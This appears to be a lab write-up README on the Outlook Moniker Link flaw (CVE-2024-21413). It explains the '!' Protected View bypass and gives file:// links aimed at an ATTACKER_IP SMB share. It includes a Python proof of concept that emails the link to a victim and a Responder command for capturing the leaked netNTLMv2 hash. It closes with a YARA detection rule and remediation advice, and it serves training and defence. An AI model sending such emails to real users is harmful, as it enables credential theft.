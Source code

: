 # Moniker Link (CVE-2024-21413)
![image](https://github.com/user-attachments/assets/e5cc39df-8999-4bb7-bb1a-69917a70e094)
## Intro
On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of CVE-2024-21413 (Moniker Link). Haifei Li of Check Point Research is credited with discovering the vulnerability.

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked.

Details relating to the scoring of the vulnerability have been provided in the table below:
CVSS	Description
Publish date	February 13th, 2024
MS article	https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413
Impact	Remote Code Execution & Credential Leak
Severity	Critical
Attack Complexity	Low
Scoring	9.8

The vulnerability is known to affect the following Office releases:
Release	Version
Microsoft Office LTSC 2021	affected from 19.0.0
Microsoft 365 Apps for Enterprise
	affected from 16.0.1
Microsoft Office 2019
	affected from 16.0.1
Microsoft Office 2016
	affected from 16.0.0 before 16.0.5435.1001
 
## Moniker Link (CVE-2024-21413)
Outlook can render emails as HTML. You may notice this being used by your favourite newsletters. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as Moniker Links. Normally, Outlook will prompt a security warning when external applications are triggered.

Outlooks Protected View is triggered when launching an external application

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation). 

By using the file:// Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (<a href="file://ATTACKER_IP/test">Click me</a>). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>

The vulnerability here exists by modifying our hyperlink to include the ! special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: <a href="file://ATTACKER_IP/test!exploit">Click me</a>.

<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, explaining this is currently out of scope for this room, as there is no publicly released proof of concept for achieving RCE via this specific CVE.

## Exploitation
https://github.com/CMNatic/CVE-2024-21413
```
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```
The PoC:

    Takes an attacker & victim email. Normally, you would need to use your own SMTP server (this has already been provided for you in this room)
    Requires the password to authenticate. For this room, the password for attacker@monikerlink.thm is attacker
    Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
    Then, fill in the "subject", "from" and "to" fields in the email
    Finally, it sends the email to the mail server

  ### Responder
    responder -I ens5
  ^^^run on attacker machine

 ## Detection
 - YARA rule

```
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {

   meta:

      description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook"

      author = "X__Junior, Florian Roth"

      reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"

      date = "2024-02-17"

      modified = "2024-02-19"

      score = 75

   strings:

      $a1 = "Subject: "

      $a2 = "Received: "



      $xr1 = /file:\/\/\/\\\\[^"']{6,600}\.(docx|txt|pdf|xlsx|pptx|odt|etc|jpg|png|gif|bmp|tiff|svg|mp4|avi|mov|wmv|flv|mkv|mp3|wav|aac|flac|ogg|wma|exe|msi|bat|cmd|ps1|zip|rar|7z|targz|iso|dll|sys|ini|cfg|reg|html|css|java|py|c|cpp|db|sql|mdb|accdb|sqlite|eml|pst|ost|mbox|htm|php|asp|jsp|xml|ttf|otf|woff|woff2|rtf|chm|hta|js|lnk|vbe|vbs|wsf|xls|xlsm|xltm|xlt|doc|docm|dot|dotm)!/

   condition:

      filesize < 1000KB

      and all of ($a*)

      and 1 of ($xr*)

}
```
 - Wireshark
   - Additionally, the SMB request from the victim to the client can be seen in a packet capture with a truncated netNTLMv2 hash.

## Remediation

Microsoft has included patches to resolve this vulnerability in February’s “patch Tuesday” release. You can see a list of KB articles by Office build here. Updating Office through Windows Update or the Microsoft Update Catalog is strongly recommended.

Additionally, in the meantime, it is a timely reminder to practice general - safe - cyber security practices. For example, reminding users to:

    Do not click random links (especially from unsolicited emails)
    Preview links before clicking them
    Forward suspicious emails to the respective department responsible for cyber security

Since this vulnerability bypasses Outlook's Protected View, there is no way to reconfigure Outlook to prevent this attack. Additionally, preventing the SMB protocol entirely may do more harm than good, especially as it is essential for accessing network shares. However, you may be able to block this at the firewall level, depending on the organisation.

## FIN
